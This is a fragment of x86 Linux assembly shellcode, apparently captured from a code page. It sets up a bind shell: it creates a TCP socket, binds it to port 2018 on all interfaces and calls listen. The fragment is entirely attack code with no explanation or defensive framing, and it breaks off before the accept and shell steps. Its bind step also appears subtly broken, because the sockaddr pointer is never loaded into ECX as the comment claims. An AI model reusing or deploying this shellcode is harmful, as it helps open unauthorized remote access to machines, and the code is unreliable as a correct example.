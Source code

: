 ```nasm
    inc bl

    ; push 1 for SOCK_STREAM
    push byte 0x1

    ; push 2 for AF_INET
    push byte 0x2

    ; store arguments in ECX, ping kernel!
    mov ecx, esp
    int 0x80

    ; 
    ; bind() code block
    ; 

    ; move sockfd to ESI
    mov esi, eax

    ; __NR_socketcall 102
    mov al, 0x66

    ; #define SYS_BIND 2
    pop ebx

    pop edi

    ; push NULL for sin_addr
    push edx

    ; push 2018 for sin_port
    push word 0xE207

    ; push 2 for sin_family
    push word bx

    ; push 16 for socketlen_t
    push byte 16

    ; store ESP pointer (sockaddr) in ECX
    push ecx

    ; push ESI for sockfd
    push esi

    ; save arguments pointer to ECX, ping kernel!
    mov ecx, esp
    int 0x80

    ; 
    ; listen() code block
    ;

    ; save sockfd in EDX
    pop edx

    ; __NR_socketcall 102
    mov al, 0x66

    ; #define SYS_LISTEN 4, ping kernel!
    add bl, 0x2
    int 0x80

```